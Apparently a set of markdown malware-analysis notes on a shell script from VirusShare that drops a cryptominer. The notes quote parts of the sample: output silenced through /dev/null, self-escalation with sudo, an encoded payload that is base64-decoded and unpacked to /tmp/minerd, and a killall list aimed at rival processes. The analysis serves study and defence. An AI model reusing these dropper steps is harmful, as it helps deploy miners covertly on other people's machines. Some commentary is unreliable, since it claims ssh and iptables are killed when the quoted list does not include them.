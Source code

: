 
## Notes
Touching `/etc/passwd` and `/ect/shadow` directly without using `adduser` is suspicious. 



--------------------------------------------------

# VirusShare_9e04aad6d98f86a9cbe28bbf556da91e.sh

## Summary
Set `DEBUG` variable to `/dev/null` Direct all info into `DEBUG`, i.e., `/dev/null` to achieve stealthy operation. 
**Stealthy** usually relates to `/dev/null`. 

Try to use `sudo` to run itself. 
**Itself** usually relates to `$0` directly or indirectly.

There is an **encoded** attempt. 
```
cat > $TMP1 << EOFMARKER
H4sICH7bDFkAA21pbmVyZADE/Q98VNd95w/fGY2kkTS2BxsntKFhBAIEKImISavukmSwSUoakgwY
... 
vrltnl4VS5l69a2mZ8kQT0zT0lr6l8lnL6v8Wz3Ld0ar/qHU+/KHev8L7B5+AawYDAA=
EOFMARKER
```
In this code, the `<<SOME-WORD` is used as **here document**. **Here document** is a kind of string that is used by bash (and other program languages) to make a long stream as a single word. 

Quote from [Shell Here Document Overview](https://web.archive.org/web/20140529084958/http://content.hccfl.edu/pollock/ShScript/HereDoc.htm) :

> Here documents (also called here docs) allow a type of input redirection from some following text.  This is often used to embed a short document (such as help text) within a shell script.  Using a here doc is often easier and simpler than a series of echo or printf statements.  It can also be used to create shell archives (shar files), embed an FTP (or other) script that needs to be fed to some command (such as ftp), and a few other uses.  Here docs are so useful many other languages use them, such as Perl and Windows PowerShell.

```
TMP2="/tmp/minerd"
base64 -d $TMP1 | gunzip -c > $TMP2
rm -rf $TMP1
chmod +x $TMP
```
This code **decodes** and **decompresses** the file. It also removes old file and change permission. 


```
killall bins.sh
killall minerd
killall node
killall nodejs
killall ktx-armv4l
killall ktx-i586
killall ktx-m68k
killall ktx-mips
killall ktx-mipsel
killall ktx-powerpc
killall ktx-sh4
killall ktx-sparc
killall arm5
killall zmap
```
This code kills many proceses. This is also suspecious especially it kills some important services (e.g., `ssh`, `sshd`, `iptables`). 